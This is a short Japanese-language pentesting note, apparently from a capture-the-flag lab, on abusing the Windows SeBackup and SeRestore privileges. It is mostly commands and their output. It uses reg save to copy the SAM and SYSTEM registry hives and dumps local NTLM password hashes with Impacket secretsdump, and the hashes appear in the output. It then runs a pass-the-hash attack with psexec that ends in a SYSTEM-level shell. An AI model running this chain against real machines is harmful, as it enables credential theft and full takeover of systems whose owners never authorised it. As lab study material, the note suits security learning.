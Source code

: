 ```powershell
# 付与されている権限
# 「管理者として実行」したプロンプトでしか表示されない権限がある
whoami /priv
```

### SeBackup, SeRestore 権限

管理者以外のユーザーがシステムのバックアップをできるようにするため、あらゆるファイルにアクセスできる。

#### SAM ハッシュと SYSTEM ハッシュをバックアップ

```powershell
# 管理者プロンプト
reg save hklm\sam C:\Users\<user>\sam.hive
reg save hklm\system C:\Users\<user>\system.hive
```

#### パスワードハッシュを取得

```shell
# kaliにファイルコピーした後
python /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up...
```

#### Pass-The-Hash 攻撃

```shell
python /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@<ip>

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.76.224.....
[*] Found writable share ADMIN$
[*] Uploading file kSBnIKcD.exe
[*] Opening SVCManager on 10.10.76.224.....
[*] Creating service zlkx on 10.10.76.224.....
[*] Starting service zlkx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
